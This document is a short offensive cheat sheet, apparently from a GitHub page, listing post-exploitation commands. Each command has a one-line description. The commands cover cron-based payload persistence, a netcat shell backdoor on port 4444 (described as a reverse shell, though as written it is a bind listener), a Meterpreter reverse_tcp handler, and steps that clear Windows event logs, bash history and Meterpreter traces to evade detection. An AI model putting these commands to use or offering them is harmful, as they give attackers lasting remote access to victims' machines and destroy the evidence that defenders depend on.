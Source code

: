 ### Linux Cron Job Persistence

```
echo '*/10 * * * * /path/payload.sh' >> /etc/crontab
```

Maintain persistence on Linux systems using cron jobs to periodically execute a script.

---

### Backdoor via Netcat

```
nc -nlvp 4444 -e /bin/bash
```

Create a reverse shell backdoor on Linux for persistent remote access.

---

### Backdoor via Meterpreter

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST LOCAL_IP; set LPORT 4444; run"
```

Deploy a Meterpreter backdoor for persistent remote access.

---

### Clear Windows Event Logs

```
wevtutil cl System & wevtutil cl Security & wevtutil cl Application
```

Remove traces of activities from Windows event logs to evade detection.

---

### Clear Linux History

```
history -c && rm ~/.bash_history
```

Clear command history to remove traces of commands executed on Linux.

---

### Remove Meterpreter Traces

```
clearev
```

Use Meterpreter to clear its own logs and hide exploitation traces.

---